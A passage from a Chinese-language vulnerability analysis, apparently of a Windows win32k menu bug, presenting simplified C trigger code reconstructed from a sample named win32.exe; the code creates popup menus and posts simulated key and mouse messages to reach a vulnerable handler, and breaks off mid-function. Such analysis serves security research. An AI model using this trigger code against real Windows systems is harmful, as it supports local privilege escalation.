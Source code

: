 ![enter image description here](img/img15_u49_png.jpg)

## 0x02 触发代码

* * *

通过上面的分析，根据 win32.exe 中代码，稍加简化，可以得到如下的漏洞触发代码。

```
#include"stdafx.h"
#include<windows.h>
DWORD dword_40DA54=0,dword_40DA5C=0;
WNDPROC lpPrevWndFunc = NULL;
LRESULT CALLBACK sub_4014D2(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam )
{
if ( Msg == WM_ENTERIDLE )
  {
if ( dword_40DA5C != 1 )
    {
      dword_40DA5C = 1;
//模仿点击消息，触发 0x1EB 消息处理，执行 pfnFilterProc
      PostMessageA(hWnd, WM_KEYDOWN, 0x28u, 0);
      PostMessageA(hWnd, WM_KEYDOWN, 0x27u, 0);
      PostMessageA(hWnd, WM_LBUTTONDOWN, 0, 0);
    }
  }
return DefWindowProcA( hWnd,Msg,wParam,lParam);
}
int __cdecl sub_401306()
{
  HMENU v0; // ebx@1
  HMENU v1; // edi@4
  MENUITEMINFOA mi; // [sp+Ch] [bp-64h]@1
  MENUITEMINFOA v4; // [sp+3Ch] [bp-34h]@1
  HMENU v9; // [sp+6Ch] [bp-4h]@1

  v9 = 0;
  memset((void *)&mi, 0, sizeof(mi));
  memset(&v4, 0, sizeof(MENUITEMINFOA));
  mi.cbSize = 48;
  v0 = CreatePopupMenu();
if ( v0 )
  {
    mi.fMask = 64;
if ( InsertMenuItemA(v0, 0, 1, &mi) )
    {
      v4.fMask = 68;
      v4.dwTypeData = (LPSTR)&dword_40DA54;
      v4.cch = 1;
      v4.hSubMenu = v0;
      v4.cbSize = 48;
      v1 = CreatePopupMenu();
      v9 = v1;
```